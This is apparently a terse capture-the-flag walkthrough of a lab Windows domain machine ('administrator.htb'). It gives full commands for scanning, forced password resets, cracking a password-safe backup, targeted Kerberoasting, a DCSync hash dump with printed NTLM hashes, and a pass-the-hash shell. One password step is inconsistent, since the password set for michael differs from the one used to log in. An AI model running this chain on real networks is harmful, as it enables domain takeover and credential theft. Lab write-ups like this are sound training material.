Portscan
nmap -sVC -p- --open -sS --min-rate 5000 -v -n --stats-every=5s -Pn -oN administrator_scan 10.10.11.42
Grab data with bloodhound
bloodhound-python -u olivia -d administrator.htb -c All -ns 10.10.11.42

We can ForceChangePassword for user michael
net rpc password "michael" "newP@ssword2022" -U "administrator.htb"/"olivia"%"ichliebedich" -S "dc.administrator.htb"
netexec smb 10.10.11.42 -u "michael" -p "Admin1234@"

With Michael i can change benjamins Password

net rpc password "benjamin" "Admin1234@" -U "administrator.htb"/"michael"%"Admin1234@" -S "dc.administrator.htb"

I can access throught ftp with benjamin creds

There is a Backup file

I downloaded it with get command

I can turn this file on a john hash
pwsafe2john Backup.psafe3 > hash.txt
Now we crack the hash with John The Ripper
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

I found 3 users with his passwords
alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur
Only Emily can be used

Emily has Generic write permission over Nethan

I can use TargetKerberoast to attack
I have a problem with time sync so i make a sudo ntpdate 10.10.11.42
I run the exploit and found a hash for ethan

With John we decrypt the hash
john hash_ethan.hash --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5tgs

With Ethan we can perform a Dsync attack
I dump hashes with impaket
impacket-secretsdump 'administrator.htb'/'ethan':'limpbizkit'@'10.10.11.42'
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::
administrator.htb\olivia:1108:aad3b435b51404eeaad3b435b51404ee:fbaa3e2294376dc0f5aeb6b41ffa52b7:::
administrator.htb\michael:1109:aad3b435b51404eeaad3b435b51404ee:fb54d1c05e301e024800c6ad99fe9b45:::
administrator.htb\benjamin:1110:aad3b435b51404eeaad3b435b51404ee:fb54d1c05e301e024800c6ad99fe9b45:::
administrator.htb\emily:1112:aad3b435b51404eeaad3b435b51404ee:eb200a2583a88ace2983ee5caa520f31:::
administrator.htb\ethan:1113:aad3b435b51404eeaad3b435b51404ee:5c2b9f97e0620c3d307de85a93179884:::
administrator.htb\alexander:3601:aad3b435b51404eeaad3b435b51404ee:cdc9e5f3b0631aa3600e0bfec00a0199:::
administrator.htb\emma:3602:aad3b435b51404eeaad3b435b51404ee:11ecd72c969a57c34c819b41b54455c9:::
With evilwirm we can connect to the target machine and obtain both flags
evil-winrm -i 10.10.11.42 -u administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
